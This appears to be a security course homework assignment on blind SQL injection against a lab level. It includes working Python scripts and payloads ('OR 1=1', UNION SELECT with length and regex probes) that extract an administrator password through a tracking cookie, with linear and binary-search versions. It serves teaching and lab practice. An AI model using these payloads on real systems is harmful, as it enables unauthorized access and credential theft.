



conditional-responses
In this level, the web application uses a tracking cookie in order to identify a particular user visiting the site. To perform the tracking, the backend server stores information associated with the cookie into a SQL database. When performing queries using this cookie, however, the cookie value is not sanitized and is vulnerable to SQL injection. While the results of the query aren't exposed through the web application, a Blind SQL injection attack is still possible.
Identify tracking cookie
Visit the level site in an Incognito window. When one visits the site for the first time, a session cookie and a tracking cookie are set and the banner only has "Home" and "Login" links in its banner. Click "Reload" in the browser and see that a "Welcome back" string appears in the UI. Because the initial request does not have the tracking cookie set, the "Welcome back" string does not appear. However, the first request installs a cookie which is sent in subsequent requests. Revisiting the site with the cookie set causes a "Welcome back" message to appear.

To demonstrate the vulnerability in the browser, bring up Developer Tools and reload the site, then find the "Application" tab, and find the name of the cookie used to perform the tracking..

Right-click the "Value" field of the cookie and edit it to append a single-quote after the value. Reload the page and see that the "Welcome back" string disappears.

We don't yet know if this broke the syntax of the SQL statement, but to test whether it has, append the always-true condition in SQL: ' OR 1=1 -- to the end of the original cookie value. Reload the page and see that the "Welcome back" string appears. We have successfully broken SQL syntax, inserted an always-true condition, and tricked the site into thinking we have a valid cookie.

We will be using the presence of the "Welcome back" string on the homepage to determine if particular queries were successful in our attack in order to expose the password of the administrator user for the site.
You will be writing your attack in Python using the requests and BeautifulSoup packages.
- In your course repository, create the directory below and
cdinto it.
cd <path_to_your_git_repository>
mkdir hw2
cd hw2- Create a file called
requirements.txtwith the following inside. The file contains the Python packages we want to install.
requests
bs4- Set up your environment in the directory
virtualenv -p python3 env
source env/bin/activate
pip install -r requirements.txtWhile we don't know the actual query being performed, we can demonstrate injection by inserting either a single-quote or double-quote in the value of our cookie. In the Python script below, create a file called hw2.py in your hw2 directory, replacing the try_query that accesses the level site specified using a cookie that contains a specified query string. The function URL-encodes the query and then attaches it to the tracking cookie. If the cookie results in a "valid" query, the "Welcome back" string is returned.
hw2.py
import requests, sys
from bs4 import BeautifulSoup
import urllib.parse
site = sys.argv[1]
if 'https://' in site:
site = site.rstrip('/').lstrip('https://')
url = f'https://{site}/'
def try_query(query):
print(f'Query: {query}')
mycookies = {'<FMI>': urllib.parse.quote_plus(query) }
resp = requests.get(url, cookies=mycookies)
soup = BeautifulSoup(resp.text, 'html.parser')
if soup.find('div', text='Welcome back!'):
return True
else:
return False
print(try_query("""x' OR 1=1 --"""))
print(try_query("""x" OR 1=1 --"""))The program tests 2 query strings. Both queries use a bogus cookie value x, then attempt to break syntax with either a single-quote or double-quote to implement the always-true disjunction (OR 1=1). The one that breaks syntax results in the SQL statement succeeding.
Run the program on your site to show which query succeeds.
python hw2.py <Level_URL> ...
Then, add, commit and push this initial script and its requirements.txt into your repository
git add .
git commit -m "Initial script"
git pushOnce we have a successful SQL injection, we can then use it to test arbitrary conditions in the backed database. One test we can do is to find the length of the administrator's password. Consider the Python snippet below that performs a UNION on the users table to test the length of the administrator's password. The program also includes timing code which is used to determine the execution time.
import time
begin_time = time.perf_counter()
num = 1
while True:
query = f"x' UNION SELECT username FROM users WHERE username='administrator' AND length(password)={num}--"
print(f'Trying length {num}')
if try_query(query) == False:
num = num + 1
else:
break
print(f"Password length is {num}")
print(f"Time elapsed is {time.perf_counter()-begin_time}")Modify your Python program to return the length of the administrator's password. Then, add, commit and push it into your repository.
git add .
git commit -m "Find length"
git pushSQL databases support powerful query operators. We can use these operators in the injection to reveal arbitrary information contained within the database without directly observing the results of the injected query. For example, PostgreSQL supports the ~ operator as well as the SIMILAR TO operator for regular expression matching. Such expressions allow one to specify matches on string patterns in a programmatic way.
We will start with the ~ operator for POSIX regular expressions. Key to a program that uses this operator will be the ^ operator for denoting the beginning of a string and the $ operator for denoting the end of it. Consider the case where the administrator's password is 'abc'. If we replace the length check from the previous program with various regular expressions, we can then glean incremental information on the password itself.
password ~ 'b' // True since password contains b in it
password ~ '^a' // True since password begins with a
password ~ 'c$' // True since password ends with c
password ~ '^a$' // False since password is not a
password ~ '^abc$' // True since password is abcThe SIMILAR TO operator has slightly different semantics. Rather than matching any part of the string, it matches the entire string. Key to a program that uses this operator will be the % for denoting a wildcard matching any sequence of characters. Examples are shown below again using a password of 'abc'.
password SIMILAR TO 'b' // False password not b
password SIMILAR TO 'a%' // True password begins with a
password SIMILAR TO '%c' // True password ends with c
password SIMILAR TO 'a' // False password is not a
password SIMILAR TO 'abc' // True password is abcMore documentation on the SIMILAR TO operator can be found here
Using either the ~ or the SIMILAR TO operators, modify your hw2.py program to perform a brute-force attack on the administrator's password that reveals the password one character at a time.
Ensure that your program does the following:
- Only searches the valid character set (e.g.
string.ascii_lowercase + string.digitsorabcdefghijklmnopqrstuvwxyz0123456789) - Incrementally outputs the password as each character is determined
- Works on passwords of any length via the use of exact matches after each character round (e.g.
password ~ '^password-candidate$'orpassword SIMILAR TO 'password-candidate') - Calculates the execution time of the attack using the timing code previously given
- Emits the password and exits once found
python hw2.py o o8 o8d o8dj o8djb . . . o8djbi8zzqhu546up o8djbi8zzqhu546upw o8djbi8zzqhu546upwq o8djbi8zzqhu546upwqh Done. Found o8djbi8zzqhu546upwqh Time elapsed is 406.07183370000001
Once working, add, commit and push it into your repository.
git add .
git commit -m "Linear search"
git pushThe prior program checked candidate characters one at a time. We can apply binary search to reduce the amount of queries required to reveal the password. To do so, we will use the range syntax within regular expressions. Specifically, the square brackets ([ ]) and range syntax (char1-char2) specify a range of characters. Again consider the case where the administrator's password is 'abc'.
Using the range expression with the ~ operator, we then have the following:
password ~ '^[a-z]' // True since password begins with lowercase letter
password ~ '^a[a-z]' // True since password begins with a and a lowercase letter
password ~ '^[0-9]' // False since password does not begin with a digitUsing the range expression with the SIMILAR TO operator, we then have the following:
password SIMILAR TO '[a-z]%' // True password begins with lowercase letter
password SIMILAR TO 'a[a-z]%'// True password begins with a and a lowercase letter
password SIMILAR TO '[0-9]%' // False password does not begin with a digitThe range syntax allows us to split the search space of characters allowing us to speed up the execution of our attack.
Splitting example
Consider the Python snippets below that use the try_query function to query each half of the character set the password is created from. Based on the password found previously in your linear search program, ensure that they return the appropriate result.
charset = string.ascii_lowercase + string.digits
# Integer midpoint of character set
mid = len(charset) // 2
# Determine which half of the character set the first letter
# belongs to using the ~ operator
print(try_query(f"""x' UNION SELECT username from users where username = 'administrator' and password ~ '^[{charset[:mid]}]' --"""))
print(try_query(f"""x' UNION SELECT username from users where username = 'administrator' and password ~ '^[{charset[mid:]}]' --"""))
# Determine which half of the character set the first letter
# belongs to using the SIMILAR TO operator
print(try_query(f"""x' UNION SELECT username from users where username = 'administrator' and password SIMILAR TO '[{charset[:mid]}]%' --"""))
print(try_query(f"""x' UNION SELECT username from users where username = 'administrator' and password SIMILAR TO '[{charset[mid:]}]%' --"""))Algorithm
When used in a program, it is unnecessary to check both halves of the search space as done above. If the character is found in one half, it can't be in the other. If a character is not found in one half, it must be in the other. A search algorithm would take the range that has the character in it, split it in half, and run a subsequent query on one of the halves to continue the search Note that if one picks a half of a range that does not match, the next query will split the opposite half for the next round of querying.
For example, for finding the first character (say 'm'), a scenario might have the following rounds of querying on the 'abcdefghijklmnopqrstuvwxyz0123456789' (assuming the ~ operator is used)
^[abcdefghijklmnopqr]results in a match^[abcdefghi]does not match (char in[jklmnopqr])^[jklm]results in match^[jk]does not match (char in[lm])^[l]does not match- First character must be
m - Try
^m$
Now that we have the first character, we can continue the process for the next character of the password. To do so, using the initial example, since we know that the first character is m, our regular expression can now be updated as shown below:
^m[abcdefghijklmnopqr]As the example shows, we eliminate half of the search space each time we do a query. This allows us to perform a binary search on the first character of the password. Rather than taking O(n) operations where n is the size of the search space, it will now take O(log n).
Modify hw2.py to implement a program that reveals the password of the administrator account using a binary search algorithm.
Requirements
Your program requirements are the same as the linear search program
- Only searches the valid character set (e.g.
string.ascii_lowercase + string.digitsorabcdefghijklmnopqrstuvwxyz0123456789) - Incrementally outputs the password as each character is determined
- Works on passwords of any length via the use of exact matches after each character round (e.g.
password ~ '^password-candidate$'orpassword SIMILAR TO 'password-candidate') - Calculates the execution time of the attack using the timing code previously given
- Emits the password and exits once found
In addition, for this version, your program must:
- Implement a binary search algorithm that uses conjunctions and regular expressions.
- Check for errors such as HTTP errors (in case the level site times out for example)
- Must be concise and modular by defining functions that encapsulate key parts of your program. If you find you have deep levels of indentation, consider the use of a function call.
- Have incremental commits to your repository that indicate your progress.
- Be well-documented. Throughout the program and especially in function declarations use Python docstrings to specify parameter names and their types as well as provide code documentation for the functionality implemented. An example of a well-documented Python function is shown below
def run_test(login, password, url, num_tests):
"""Records timing data for an individual attack
Args:
login (str): login to test
password (str): password to test
url (str): URL to test
num_tests (int): number of tests to run
Returns:
float: Average time taken across tests
""" Rubric
- Program correctness
- Follows the guidelines described above
- Reliably finds the correct alphanumeric password on an arbitrary level using binary search
- Checks for errors as part of its operation
- Emits timing information detailing its performance
- Program is concise, modular, and documented clearly
- Multiple incremental commits have been made to the git repository as the program has been developed